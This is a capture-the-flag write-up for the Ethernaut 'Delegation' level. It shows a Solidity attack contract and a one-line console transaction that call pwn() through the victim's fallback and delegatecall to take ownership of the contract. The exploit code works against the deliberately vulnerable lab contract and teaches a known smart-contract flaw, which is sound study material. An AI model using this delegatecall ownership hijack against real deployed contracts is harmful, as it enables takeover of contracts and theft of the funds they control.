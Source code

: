 # Delegation

This contract can be hacked in two ways,either by the use of attack contract , or directly from the console .
### By Contract:
This way doesn't pass you the level but gets you the ownership of the contract.And that because the ownership is given to the contract not to you.
#### Code:
````// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Attack {
    address public victim;

    constructor(address _victim) public {
        victim = _victim;
    }

    function exploit() public {
        victim.call(abi.encodeWithSignature("pwn()"));
    }
}
````
#### What happened:
By calling exploit function we are making a low level transaction calling the function `pwn()` But this function doesn't exist in the Delegation contract so the `fallback()` function will be called instead.
In the `fallback()` function a delegate call will be initiated to contract **Delegate** with `msg.data` which is a low level call to function `pwn()`.
The Delegate call execute the function `pwn()` inside the contract **Delegation** and so obtaining ownership.

### In Console:
This is the best way to solve this and the easiest, it is done from the console in Ethernaut and with one line of code.
#### Code:
````
sendTransaction({from: player, to: contract.address, data: web3.eth.abi.encodeFunctionSignature("pwn()")})
````

What happend is exactly the same using the contract the only difference is that `msg.sender` is the wallet address not the contracts one.
